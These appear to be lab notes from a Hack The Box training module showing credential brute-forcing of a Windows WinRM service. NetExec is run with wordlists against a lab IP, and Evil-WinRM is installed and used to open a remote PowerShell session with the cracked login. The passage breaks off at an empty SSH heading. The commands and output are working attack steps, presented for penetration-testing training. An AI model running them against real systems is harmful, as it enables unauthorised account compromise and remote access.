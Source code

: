 **NetExec General Usage:**
```shell-session
realCustampin@htb[/htb]$ netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

Let's look at attacking a WinRM target:
```shell-session
realCustampin@htb[/htb]$ netexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```
- The (Pwn3d!) is a sign that we can most likely execute system commands if we log in with the brute-forced user. 

**Evil-WinRM**

Installing Evil-WinRM: 
```shell-session
realCustampin@htb[/htb]$ sudo gem install evil-winrm

Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

Evil-WinRM Usage: 
```shell-session
realCustampin@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```

```shell-session
realCustampin@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```
We are able to establish a session with the user and password arguments. 

## SSH

